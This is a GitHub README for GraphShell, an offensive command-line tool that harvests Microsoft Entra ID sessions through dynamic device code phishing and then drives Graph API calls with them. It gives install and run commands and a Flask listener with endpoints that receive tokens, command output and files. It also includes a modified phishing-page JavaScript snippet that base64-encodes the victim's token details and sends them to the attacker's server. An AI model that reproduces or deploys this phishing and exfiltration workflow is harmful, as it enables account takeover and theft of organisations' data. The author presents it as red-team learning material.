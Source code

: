 ## GraphShell: A Command-Line Tool for Microsoft Graph API Exploration
### Overview
GraphShell is a command-line not so fancy tool designed for interacting with Microsoft Graph API. Currently it facilitates many operations such as enumerating users, groups, devices, and sending emails from Entra ID ( I am lying, for some reason the mail doesn't get delivered, maybe detected as spam? ). I devloped it as I was learning and exploring Device Code Phishing and Microsoft Graph API. If you are looking for more functionality, I would recommend exploring [AADInternals](https://github.com/Gerenios/AADInternals) and [TokenTactics](https://github.com/rvrsh3ll/TokenTactics). I am sure there would be some more cool projects but I haven't explored them yet :D

### Update (05/27/2024)
It now allows interacting with multiple sessions, starting a Flask server to receive sessions (helpful during dynamic device code phishing), and performing various tasks with authenticated sessions (YESSSS! more graph api calls).
![](https://raw.githubusercontent.com/dazzyddos/GraphShell/main/images/image.png)

### Features <br>
Features
- Generate device codes for authentication.
- Interact with multiple sessions.
- Start a Flask web server to retrieve sessions remotely (Dynamic Device Code Phishing).
- List and interact with sessions.
- Execute various Microsoft Graph API commands.
- Save and load sessions to/from an SQLite database.
- Check session validity and status.
- Support for SSL for the web server.

### Web Server Endpoints
- GET /start_session: Start a new session.
- POST /start_session: Start a new session with session details.
- GET /poll_session/<session_id>: Poll for session authorization status.
- POST /receive_output: Receive command output.
- POST /receive_file: Receive a file.
- POST /heartbeat: Send a heartbeat.

#### Installation and Usage
Clone the repository:
```bash
git clone https://github.com/dazzyddos/GraphShell.git
cd GraphShell
```

Install dependencies:
```bash
pip install -r requirements.txt
```

Run the tool:
```bash
python main.py
```

Generate Device Code:
```bash
>> generate_device_code
```

Authenticate:
```
The device code needs to be entered at the provided URL i.e., https://microsoft.com/devicelogin
```

Other way to use is to start the flask server which will listen for token details:
```bash
>> start_server 1337 SSL  # can be run without SSL too
```

#### Video Demo 1 (Normal Generate Token)

<video width="640" height="480" controls>
  <source src="videos/generate_device_code.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>


### Dynamic Device Code Phishing
I don't need to explain what and how the device code phishing works. I would recommend reading this great [Blog Post](https://www.blackhillsinfosec.com/dynamic-device-code-phishing/) by [@rvrsh3ll](https://twitter.com/rvrsh3ll)
I am using the same [index.html](https://github.com/rvrsh3ll/Azure-App-Tools/blob/master/DynamicDeviceCodes/index.html) except with small modification below. By default he's only sending the device_code to his python tool but our tool requires the complete token details which needs to be sent after base64 encoding.
```javascript
function base64UrlEncode(str) {
        return btoa(str) // Standard Base64 encoder
            .replace(/\+/g, '-') // Convert '+' to '-'
            .replace(/\//g, '_') // Convert '/' to '_'
            .replace(/=+$/, ''); // Remove trailing '='
    }
    
// Convert the object to a JSON string
const jsonString = JSON.stringify(data)

// Base64 URL encode the JSON string
const base64EncodedData = base64UrlEncode(jsonString)
//console.log(base64EncodedData);

document.getElementById('code').innerHTML += data.message;

// Change this line to point to your listening webserver where the python code is running
$.get("https://<Server Name>:<port>/start_session?tok=" + base64EncodedData);
```

<video width="640" height="480" controls>
  <source src="video/dynamic_device_code.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>




